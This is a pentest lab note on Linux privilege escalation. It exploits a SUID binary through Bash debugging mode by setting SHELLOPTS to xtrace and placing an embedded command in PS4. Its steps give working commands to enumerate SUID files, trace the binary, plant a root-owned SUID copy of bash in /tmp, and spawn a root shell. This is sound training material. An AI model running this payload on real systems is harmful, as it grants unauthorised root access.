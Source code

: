 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

Bash has a debugging mode which can be enabled with the –x command line option, or by modifying the SHELLOPTS environment variable to include xtrace.

By default, SHELLOPTS is read only, however the env command allows SHELLOPTS to be set.

When in debugging mode, Bash uses the environment variable PS4 to display an extra prompt for debug statements. This variable can include an embedded command, which will execute every time it is shown.

If a SUID file runs another program via Bash (e.g. by using system() ) these environment variables can be inherited.

If an SUID file is being executed, this command will execute with the privileges of the file owner.

In Bash versions 4.4 and above, the PS4 environment variable is not inherited by shells running as root.

1. Find SUID/SGID files on the target:

```bash - target
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

-rwsr-sr-x 1 root staff 6899 May 14 2017 /usr/local/bin/suid-env2

The suid- - env2 file should execute with root user permissions.

2. Run strings on the SUID file:

```bash - target
strings /usr/local/bin/suid-env2
```

> /usr/sbin/service apache2 start

The file could be trying to run the /usr/sbin/service program.

3. We can verify this with strace:

```bash - target
strace -v -f -e execve /usr/local/bin/suid-env2 2>&1 | grep service
```

> [pid 16729] execve("/bin/sh", ["sh", "-c", "/usr/sbin/service apache2 start"]

4. Optionally, we can also verify with ltrace:

```bash - target
ltrace /usr/local/bin/suid-env 2>&1 | grep service
```

system("service apache2 start"

This reveals that the system function is being used to execute the service program.

5. Run the SUID file with bash debugging enabled and the PS4 variable assigned to our payload:

```bash - target
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chown root /tmp/rootbash; chmod +s /tmp/rootbash)' /usr/local/bin/suid-env2
```

6. Run the /tmp/rootbash file with the -p command line option to get a root shell:

```bash - target
/tmp/rootbash -p
```

```bash - target
id
```

> uid=1000(user) gid=1000(user) euid=0(root) egid=0(root) groups=(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)